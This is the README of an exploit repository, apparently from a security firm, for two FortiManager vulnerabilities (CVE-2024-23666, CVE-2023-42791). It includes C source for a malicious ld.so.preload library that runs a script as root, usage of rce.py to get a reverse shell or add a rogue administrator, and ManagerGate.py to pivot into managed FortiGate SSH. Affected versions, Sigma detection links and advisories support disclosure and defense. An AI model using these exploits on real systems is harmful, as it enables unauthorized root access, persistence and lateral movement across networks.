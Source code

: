 # Fortimanager insufficient authorization checks (CVE-2024-23666) and unrestricted file upload (CVE-2023-42791) exploitation scripts

Two exploitation scripts leveraging these vulnerabilities are provided:

 - `rce.py`: Provides a reverse shell or adds an arbitrary administrator from unprivileged access to the FortiManager.
 - `ManagerGate.py`: Allows connecting to remote managed FortiGate SSH services. SSH passwords are still needed but can be found in the FortiManager configuration backup.

For more details, please refer to the associated advisory available at https://www.synacktiv.com/advisories/advisories/fortimanager-multiple-vulnerabilities

## Usage

### rce.py
Compile a malicious library that will run `/rce.sh`: 
```
$ cat rce.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    if (getuid() != 0) return 0;
    unlink("/etc/ld.so.preload");
    if (fork() == 0) {
        setgid(0);
        setuid(0);
        system("/bin/bash /rce.sh");
    }
    return 0;
}

$ gcc -fPIC -shared -o rce.so rce.c -nostartfiles
```

Usage:
```
$ python3 rce.py -h
usage: rce.py [-h] [-k] [-l LIBRARY] connection {revshell,adduser} ...

positional arguments:
  connection            User, password, and host (user:password@host)

options:
  -h, --help            show this help message and exit
  -k, --insecure        Do not check the remote host certificate (default: False)
  -l LIBRARY, --library LIBRARY
                        Malicious library path (default: /tmp/rce.so)

Action to run:
  {revshell,adduser}
    revshell            Run a Python reverse shell
    adduser             Create a new administrator
```

To obtain a reverse shell:
```
$ python3 rce.py -k -l ./rce.so lowpriv:password@10.10.10.1 revshell 10.10.10.100 1234
[+] Login to the FortiManager
[+] Uploading /rce.sh
[+] Uploading /rce.so
[+] Uploading /etc/ld.so.preload
[+] Login out of the FortiManager to trigger the RCE
```

To add a new administrator to the FortiManager:
```
$ python3 rce.py -k -l ./rce.so lowpriv:password@10.10.10.1 adduser malicious_adm password
[+] Login to the FortiManager
[+] Uploading /create_user.txt
[+] Uploading /rce.sh
[+] Uploading /rce.so
[+] Uploading /etc/ld.so.preload
[+] Login out of the FortiManager to trigger the RCE
```


### ManagerGate.py

```
$ python3 ManagerGate.py -h
usage: ManagerGate.py [-h] -H HOST -u USER -p PASSWORD [-d DEVICEID] [-i TUNNELIP] [-l] [-x PROXY] -U GU [-v VERBOSE]

get a shell on fortigate

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  host of the fortimanager
  -u USER, --user USER  user to connect with to the fortimanager
  -p PASSWORD, --password PASSWORD
                        password to connect to the fortimanager
  -d DEVICEID, --deviceid DEVICEID
                        device oid to get shell
  -i TUNNELIP, --tunnelip TUNNELIP
                        tunnel ip of the fortigate
  -l, --local           local connect to fortimanager
  -x PROXY, --proxy PROXY
                        proxy request
  -U GU, --gu GU        user to connect with to the fortigate
  -v VERBOSE, --verbose VERBOSE

```

Example
```
$ python3 ManagerGate.py -H 10.0.0.1 -u ReadOnlyUser -p MyPassword123 -d 1011 -i 169.254.0.2   -U root
```

Device OID and tunnel IP of the targeted FortiGates can be found on the FortiManager GUI.

## Affected versions

- CVE-2023-42791         
   - FortiManager ≤ 7.4.0 ≤ 7.2.3 ≤ 7.0.8 ≤ 6.4.12 ≤ 6.2.11         
- CVE-2024-23666         
   - FortiManager ≤ 7.4.2 ≤ 7.2.5 ≤ 7.0.12 ≤ 6.4.14
   - FortiAnalyzer ≤ 7.4.2 ≤ 7.2.5 ≤ 7.0.12 ≤ 6.4.14
   - FortiAnalyzer-BigData ≤ 7.4.0 ≤ 7.2.6 7.0.x 6.4.x 6.2.x

## Sigma Detection Rules
Sigma detection rules aimed at detecting use of these exploitation scripts are available in Synacktiv's rules repository: https://github.com/synacktiv/synacktiv-rules/tree/main/2025/fortimanager

## References
- https://www.synacktiv.com/advisories/advisories/fortimanager-multiple-vulnerabilities
- https://fortiguard.fortinet.com/psirt/FG-IR-23-189
- https://fortiguard.fortinet.com/psirt/FG-IR-23-396